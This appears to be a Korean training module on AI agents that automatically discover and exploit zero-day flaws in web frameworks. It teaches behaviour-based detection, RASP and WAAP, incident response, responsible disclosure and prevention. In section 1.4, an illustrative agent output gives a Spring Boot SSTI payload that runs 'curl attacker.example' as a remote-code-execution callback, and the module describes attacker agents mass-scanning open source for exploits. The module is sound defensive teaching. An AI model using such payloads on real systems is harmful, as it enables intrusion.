







# Week 05: 0-day 웹 프레임워크 자동 악용 — 에이전트가 패치 전 공격을 만든다

## 이번 주의 위치
지난 주까지 *알려진 공격 유형*을 보았다. 이번 주는 **알려지지 않은 취약점**을 에이전트가 *스스로 발견·악용*하는 시나리오를 본다. 대상은 Spring Boot·Rails·Django 등 메인스트림 웹 프레임워크. 에이전트는 *공개 소스 코드*(오픈소스 또는 유출 리파지토리)를 읽고, *패턴 기반 취약점 가설*을 세운 뒤, *실제 PoC*를 생성한다. 이 공격 앞에서 *N-day 기반 방어*는 구조적으로 뒤처진다.

## 학습 목표
- 에이전트 기반 *코드 리뷰·취약점 발견*의 메커니즘을 이해
- 공격자 에이전트가 0-day 후보를 *자동 검증*하는 절차를 관찰
- 6단계 IR 절차를 *알려지지 않은 공격*에 적용하는 방법
- *시그니처 없는 탐지* — 행위 기반·이상 기반 탐지의 강화
- SDLC 단계별 *예방 자산*(SBOM·SAST·DAST·RASP) 설계

## 전제 조건
- C19·C20 w1~w4
- Java/Ruby/Python 기초 (프레임워크 구조)
- OWASP Top 10

## 강의 시간 배분
| 시간 | 내용 |
|------|------|
| 0:00-0:40 | Part 1: 공격 해부 |
| 0:40-1:10 | Part 2: 탐지 |
| 1:10-1:20 | 휴식 |
| 1:20-1:50 | Part 3: 분석 |
| 1:50-2:30 | Part 4: 초동대응 |
| 2:30-2:40 | 휴식 |
| 2:40-3:10 | Part 5: 보고·공유 |
| 3:10-3:30 | Part 6: 재발방지 |
| 3:30-3:40 | 퀴즈 + 과제 |

---

## 용어 해설

| 용어 | 설명 |
|------|------|
| **0-day** | 공개되지 않은 취약점 |
| **N-day** | 공개된 후 패치되지 않은 취약점 |
| **SBOM** | Software Bill of Materials — 의존성 명세 |
| **SAST** | Static Application Security Testing |
| **DAST** | Dynamic AST |
| **IAST** | Interactive AST |
| **RASP** | Runtime Application Self-Protection |
| **WAAP** | Web Application and API Protection (차세대 WAF) |
| **Fuzz** | 임의 입력 대량 시도 |

---

# Part 1: 공격 해부 (40분)

## 1.1 에이전트 0-day 발견 파이프라인



## 1.2 LLM의 *코드 읽기*가 바꾼 것

전통: 취약점 연구자가 *코드를 사람 눈으로 읽고*·*가설을 세우고*·*수동 검증*. 며칠~수주.

에이전트: *수천 줄의 소스*를 *한 세션* 안에 읽고, 다음 출력 생성:

- 의심 함수 목록 (user input → sink 경로)
- 가능한 공격 벡터(RCE·XXE·Deserialization)
- 필요한 전제 조건(설정·버전)
- 검증 PoC 코드

이 능력이 *오픈소스 생태계 전체*에 대해 *연속 스캔*되고 있다.

## 1.3 자주 발견되는 패턴 3개

### 패턴 A — Deserialization
Java·PHP·Python에서 *신뢰되지 않은 입력*의 역직렬화. 에이전트는 `ObjectInputStream.readObject`, `pickle.loads`, `yaml.load`를 *자동 수색*.

### 패턴 B — Template Injection
Freemarker·Velocity·Jinja2 등에서 *사용자 입력이 템플릿 문법으로 평가*되는 버그.

### 패턴 C — Path Traversal + RCE
파일 업로드·다운로드·include 경로의 *정규화 누락*.

## 1.4 에이전트의 PoC 생성 예 (Spring Boot 가상 시나리오)

```
공격자 에이전트 입력:
  대상 URL: http://target/api/profile
  공개 소스: /repo/ProfileController.java

에이전트 출력:
  [분석] profile 엔드포인트가 user.name을 Thymeleaf 템플릿에
         직접 렌더 → SSTI 가능성
  [가설] ${T(java.lang.Runtime).getRuntime().exec("id")}
  [검증] curl -X POST http://target/api/profile \
         -d 'name=${T(java.lang.Runtime).getRuntime().exec("curl attacker.example/X")}'
  [결과 확인] attacker.example 에 요청 도달 → RCE 확정
```

이 과정이 *수 분* 안에 완성된다.

## 1.5 공격의 *규모화*

공격자 측은 한 에이전트가 *수천 오픈소스 프로젝트*를 스캔하고, 발견된 취약점을 *공격자 서버에 목록화*한다. 이 목록이 **사설 0-day 카탈로그**를 구성한다.

방어 관점에서 *가장 무서운 것*: 조직의 오픈소스 의존성에 대해 *세상이 알기 전에* 공격자가 안다.

---

# Part 2: 탐지 (30분)

## 2.1 *시그니처 없는* 세계에서 탐지

시그니처가 없으니 **행위**에 의존.



## 2.2 각 행위의 구체 탐지

### 행위 1 — 특이 URL
- 길이 > 1KB
- 인코딩 이중 적용
- `${T(...)}`, `{{...}}`, `%u002f` 등 템플릿·경로 페이로드

### 행위 2 — 응답 시간
- `SELECT ... SLEEP(5)` 류
- 동일 경로의 응답 시간이 *이례적으로* 긴 요청

### 행위 3 — Out-of-band
- DNS 쿼리 발생 (공격자 소유 도메인)
- HTTP 아웃바운드 요청 (unusual)

### 행위 4 — 응답 본문
- 정상 대비 *훨씬 긴* 응답
- stack trace 노출
- `/etc/passwd` 패턴

## 2.3 RASP (Runtime Application Self-Protection)

애플리케이션 내부에서 *스스로 보호*. 예:
- Java agent가 `Runtime.exec` 호출을 감시
- *위험 함수* 호출 시 스택 트레이스 기반 차단

RASP는 *시그니처 없이*도 *행위*를 막을 수 있다.

## 2.4 Bastion 스킬 — `detect_zero_day_suspect`

```python
def detect_zero_day_suspect(events):
    suspects = []
    for req in events.http_requests:
        score = 0
        if len(req.uri) > 1024: score += 0.2
        if re.search(r'\$\{|\{\{|%u0', req.uri): score += 0.3
        if req.response_time_ms > req.path_p95 * 3: score += 0.2
        if req.has_oob_callback: score += 0.5  # DNS/HTTP 외부
        if req.response_size > req.path_p95_size * 5: score += 0.2
        if score > 0.5:
            suspects.append((req.id, score))
    return suspects
```

---

# Part 3: 분석 (30분)

## 3.1 *시그니처 없는 사고*의 분석 방법

1. **재현성 확보**: 동일 요청으로 동일 결과가 나오는지
2. **가설 생성**: 어떤 *버그 유형*인가 (LLM 보조)
3. **범위 테스트**: 동일 취약점이 *다른 엔드포인트*에도 있는가
4. **벤더 확인**: 오픈소스라면 *upstream* 패치 여부

## 3.2 *Bastion + LLM*이 분석 가속

분석 단계에서 Bastion이 제공:
- 유사 과거 사건 검색 (Experience DB)
- 공격 요청을 *다시 LLM에 입력*해 *사람이 놓친 패턴* 발견
- 공개 CVE DB 실시간 조회 (OpenCTI)



---

# Part 4: 초동대응 (40분)

## 4.1 Human 대응



소요: 1~8시간 (벤더 대기 포함).

## 4.2 Agent 대응



소요: 수 초 ~ 수 분.

## 4.3 *벤더 보호* 조치

0-day는 벤더가 패치해야 한다. 방어자는:

1. 벤더에 *책임 있는 공개*(responsible disclosure)
2. 일시적 *미티게이션*(우회·설정 변경)
3. WAF 룰로 *표면 차단*
4. RASP로 *근본 차단*

## 4.4 비교표

| 축 | Human | Agent |
|----|-------|-------|
| 차단 적용 시간 | 1~3시간 | **수 분** |
| 과거 분석 | 며칠 | **수 분 (Experience + LLM)** |
| 벤더 협업 | *사람만* | 사람 |
| 정책 판단 | *사람만* | 사람 |
| 서비스 영향 평가 | *강함* | Canary 보조 |

---

# Part 5: 보고·상황 공유 (30분)

## 5.1 *0-day 책임 있는 공개*

내부 사고가 벤더 공통 0-day로 확인되면:



이 기간(보통 90일)에는 *상세 내용 공개 자제*.

## 5.2 임원 브리핑

```markdown
# Incident — Suspected 0-day (D+60min)

**What happened**: Spring Boot 기반 API에서 원격 코드 실행 가능성 의심.
                   Bastion이 해당 요청 패턴 즉시 차단·RASP 활성.

**Impact**: 5개 의심 요청. 실제 실행 *증거 부분*. 고객 데이터 접근 없음.

**Ask**: 벤더 Spring 팀에 책임있는 공개 + 임시 패치 배포 승인 (D+1).
```

## 5.3 외부 공유

- 벤더 보안팀 (필수)
- CERT (KISA·KrCERT)
- 공격자 IP 관련 ISAC 공유

---

# Part 6: 재발방지 (20분)

## 6.1 SDLC 전체의 예방 자산



## 6.2 각 도구의 기여도

| 도구 | 기여 | 한계 |
|------|------|------|
| SBOM | 의존성 명확 | 로직 결함 못 잡음 |
| SAST | 코드 정적 분석 | 거짓양성 많음 |
| SCA | 알려진 CVE 매칭 | 0-day 못 잡음 |
| DAST | 동적 취약점 스캔 | 로직 결함 제한 |
| IAST | 런타임 *안쪽* 관찰 | 에이전트 오버헤드 |
| **RASP** | **런타임 자가 보호** | 배포 복잡 |
| WAAP | 네트워크 경계 보호 | 시그니처 한계 |

RASP + WAAP의 조합이 *시그니처 없는 공격*에 가장 강함.

## 6.3 예방 체크리스트

- [ ] 모든 서비스에 SBOM
- [ ] CI에 SAST + SCA
- [ ] Pre-prod에 DAST
- [ ] 핵심 서비스에 RASP
- [ ] 외부 경계에 WAAP
- [ ] 벤더 공개 *72시간 내 패치 정책*
- [ ] Bug Bounty 프로그램

---

## 과제

1. **공격 재현 (필수)**: 샌드박스 Spring Boot (또는 Rails) 앱에서 SSTI·Deserialization 1건 시뮬레이션.
2. **6단계 IR 보고서 (필수)**.
3. **행위 기반 탐지 설계 (필수)**: `detect_zero_day_suspect` 본인 확장.
4. **(선택)**: RASP 도구 1개 조사 보고서.
5. **(선택)**: 본인 조직의 SBOM·SAST·DAST·RASP 현황 감사 체크리스트.

---

## 부록 A. 주요 RASP·WAAP 벤더 (2026 기준)

- Contrast Security, Imperva RASP, Sqreen(Datadog), Signal Sciences, BunkerWeb (오픈소스 WAAP 계열)
- 조직 규모·기술 스택에 따라 선택

## 부록 B. *0-day에도 안전한* 아키텍처 원칙

- **Least privilege**: 취약 서비스가 가진 권한이 작으면 피해도 작음
- **Network segmentation**: 내부 Lateral 차단
- **Defense in depth**: RASP + WAAP + IPS + 호스트 EDR
- **Assume breach**: 언제든 침투될 수 있다는 가정 하의 설계

이 원칙이 *0-day* 앞에서도 *피해 규모*를 제한한다.

---

## 실제 사례 (WitFoo Precinct 6)

> **출처**: [WitFoo Precinct 6 Cybersecurity Dataset](https://huggingface.co/datasets/witfoo/precinct6-cybersecurity) (Apache 2.0)
> **익명화**: RFC5737 TEST-NET / ORG-NNNN / HOST-NNNN 으로 sanitized

본 주차 (5주차) 학습 주제와 직접 연관된 *실제* incident:

### SMB 측면이동 — 동일 자격증명 5호스트

> **출처**: WitFoo Precinct 6 / `incident-2024-08-001` (anchor: `anc-eca1db9a5a31`) · sanitized
> **시점**: 2024-08-12 03:14 ~ 03:42 (28 분)

**관찰**: 10.20.30.50 (john.doe) → 10.20.30.{60,70,80,90,100} 에 SMB 인증 성공. 단일 자격증명 재사용 패턴.

**MITRE ATT&CK**: **T1021.002 (SMB/Windows Admin Shares)**, **T1078 (Valid Accounts)**

**IoC**:
  - `10.20.30.50`
  - `smb-share://win-fs01/admin$`

**학습 포인트**:
- 동일 계정의 *시간상 가까운* 다중 호스트 SMB 인증 = 측면이동 강한 신호
- 패스워드 재사용 / 서비스 계정 공유 / SSO 토큰 위조 가능성
- 탐지: Sysmon EID 4624 (logon type 3) + 시간 윈도우 5분 + 호스트 N≥3
- 방어: per-host local admin / network segmentation / Windows Defender Credential Guard


**본 강의와의 연결**: 위 사례는 강의의 핵심 개념이 어떻게 *실제 운영 환경*에서 일어나는지 보여준다. 학생은 이 패턴을 (1) 공격자 입장에서 재현 가능한가 (2) 방어자 입장에서 탐지 가능한가 (3) 자기 인프라에서 동일 신호가 있는지 검색 가능한가 — 3 관점에서 평가한다.

---

> 더 많은 사례 (총 5 anchor + 외부 표준 7 source) 는 KG (Knowledge Graph) 페이지에서 검색 가능.
> Cyber Range 실습 중 학습 포인트 박스 (📖) 에 동일 anchor 가 자동 노출된다.
